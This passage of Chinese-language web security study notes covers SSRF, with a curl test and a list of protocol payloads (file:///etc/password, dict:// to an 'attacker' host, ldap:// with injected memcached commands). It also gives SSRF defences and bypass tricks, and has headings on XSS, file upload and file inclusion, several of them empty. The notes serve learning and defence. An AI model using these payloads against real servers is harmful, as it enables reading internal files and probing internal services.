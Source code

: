 使用`curl -v http://xx.com/ssrf.php?url=sxxx`

```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复

> <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>

1. 检查是否为内网IP地址 绕过方法: 利用八进制IP地址绕过 利用十六进制IP地址绕过 利用十进制的IP地址绕过 利用IP地址的省略写法绕过 最好的做法：IP地址转换为整数再进行判断
2. 获取真正请求的host
    1. 如何正确的获取用户输入的URL的Host？ 最常见的就是，使用<http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname>
    2. 只要Host只要不是内网IP即可吗？ host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
    3. 只要Host指向的IP不是内网IP即可吗？ 不一定，可能会30x跳转

归纳 解析目标URL，获取其Host 解析Host，获取Host指向的IP地址 检查IP地址是否为内网IP 请求URL 如果有跳转，拿出跳转URL，执行1

### 在浏览器端，Referer可以篡改吗？

通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用

### xss代码层防御

## 文件上传下载遍历漏洞

### 原理

1. 容器漏洞，解析漏洞

### 修复方案

## 文件包含漏洞

> <https://blog.csdn.net/fuckcat_2333/article/details/52132559>

### 类型
